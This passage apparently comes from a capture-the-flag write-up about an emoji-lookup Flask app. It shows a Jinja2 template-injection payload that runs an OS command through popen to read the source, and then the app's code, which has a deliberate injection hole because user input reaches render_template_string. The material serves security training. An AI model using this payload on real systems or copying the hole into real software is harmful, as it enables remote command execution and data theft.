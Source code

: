 ```python
config.__class__.__init__.__globals__['os'].popen('cat app.py').read()
```

{{< code language="python" title="app.py" >}}

```python
import random
from flask import Flask, render_template_string, render_template, request
import os
import emojis

app = Flask(__name__)
app.config['SECRET_KEY'] = 'Leer alles over Software Security bij Arjen (follow @credmp) at https://www.novi.nl'

def magic(flag, key):
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[::-1][x]) ^ ord(key[x])) for x in range(len(flag)))

file = open("/tmp/flag.txt", "r")
flag = file.read()

app.config['flag'] = magic(flag, '112f3a99b283a4e1788dedd8e0e5d35375c33747')
flag = ""

os.remove("/tmp/flag.txt")

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        emoji="unknown"
        try:
            p = request.values.get('emoji')
            if p != None:
                emoji = emojis.db.get_emoji_by_alias(p)
        except Exception as e:
            print(e)
            pass

        try:
            if emoji == None:
                return render_template_string("You entered an unknown emoji: %s" % p)
            else:
                return render_template_string("You entered %s which is %s. It's aliases %s" % (p, emoji.emoji, emoji.aliases))
        except Exception as e:
            print(e)
            return 'Exception'

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
